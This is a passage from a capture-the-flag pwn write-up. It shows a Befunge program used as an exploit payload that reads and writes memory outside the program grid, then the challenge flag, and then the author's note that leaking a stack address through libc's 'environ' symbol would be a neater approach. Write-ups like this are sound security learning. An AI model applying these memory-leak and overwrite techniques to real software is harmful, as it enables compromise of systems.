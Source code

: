 ```text
v.g&&.g&&.g&&.g&&.g&&.g&&            <
>&&g.&&g.&&g.&&g.&&g.&&g.            v
v.g&&.g&&.g&&.g&&.g&&.g&&            <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&&*p&&&&*p&&&&*p&&&&*p&&&&*p&&&&*pv
v                                    < 
>&&&&*p&&&&*p&&&&*p&&&&*p&&&&*p&&&&*pv
v                                    < 
>&&&&*p&&&&*p&&&&*p&&&&*p&&&&*p&&&&*pv
v                                    < 
>                                    ^
```
  
flag : `TWCTF{It_1s_eMerG3nCy}`  
  
After I pass the challenge and ask a girl from HITCON CTF team, she told me that there's a symbol call `environ` in libc, which also store a stack address! And that's the moment I realized I totally forgot to search the stack address in libc while debugging the program!  

So the (way) more elegant way to solve this challenge is to leak the stack address via the `environ` symbol after we leak the libc's base address. Guess I've still got a lot to learn in the pwn area :P
